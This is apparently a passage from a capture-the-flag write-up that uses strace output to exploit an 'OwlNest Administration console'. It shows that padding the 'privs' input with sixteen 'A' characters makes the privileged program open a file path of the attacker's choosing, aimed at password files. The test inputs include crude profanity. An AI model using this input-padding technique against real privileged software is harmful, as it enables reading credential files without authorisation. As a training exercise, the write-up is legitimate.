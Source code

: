 ``` bash
) = 68
write(1, "       \\\\:::::// \\\\;;;;;// \\\\:::"..., 68       \\:::::// \\;;;;;// \\:::::// \\;;;;;// \\;;;;;// \\::::://
) = 68
write(1, "   -----`\"\" \"\"`---`\"\" \"\"`---`\"\" "..., 70   -----`"" ""`---`"" ""`---`"" ""`---`"" ""`---`"" ""`---`"" ""`---
) = 70
write(1, "        \\__V__/   \\__V__/   \\__V"..., 69        \__V__/   \__V__/   \__V__/   \__V__/   \__V__/   \__V__/

) = 69
write(1, "This is the OwlNest Administrati"..., 46This is the OwlNest Administration console

) = 46
write(1, "Type Help for a list of availabl"..., 47Type Help for a list of available commands.

) = 47
write(1, "Ready: ", 7Ready: )                  = 7
fstat64(0, {st_mode=S_IFCHR|0600, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7716000
read(0, username root
"username root\n", 1024)        = 14
write(1, "Ready: ", 7Ready: )                  = 7
read(0, privs /home/meh/password.txt
"privs /home/meh/password.txt\n", 1024) = 29
write(1, "Ready: ", 7Ready: )                  = 7
read(0, password arse
"password arse\n", 1024)        = 14
open("rd.txt", O_RDONLY)                = -1 ENOENT (No such file or directory)
open("/root/password.txt", O_RDONLY)    = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7715000
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
_llseek(3, 0, [0], SEEK_SET)            = 0
read(3, "blah\n", 5)                    = 5
_llseek(3, 5, [5], SEEK_SET)            = 0
close(3)                                = 0
munmap(0xb7715000, 4096)                = 0
```

As you can see here, it's cut off the first 16 characters of our priv input, and is trying to open "rd.txt", which doesn't exist. Therefore we have to pad the privs input by 16 characters.

``` bash
write(1, "Ready: ", 7Ready: )                  = 7
read(0, username root
"username root\n", 1024)        = 14
write(1, "Ready: ", 7Ready: )                  = 7
read(0, privs AAAAAAAAAAAAAAAA/home/meh/password.txt
"privs AAAAAAAAAAAAAAAA/home/meh/"..., 1024) = 45
write(1, "Ready: ", 7Ready: )                  = 7
read(0, password bleh
"password bleh\n", 1024)        = 14
open("/home/meh/password.txt", O_RDONLY) = -1 ENOENT (No such file or directory)
open("/root/password.txt", O_RDONLY)    = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7715000
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
_llseek(3, 0, [0], SEEK_SET)            = 0
read(3, "cunt\n", 5)                    = 5
_llseek(3, 5, [5], SEEK_SET)            = 0
close(3)                                = 0
munmap(0xb7715000, 4096)                = 0
write(1, "Ready: ", 7Ready: )                  = 7
```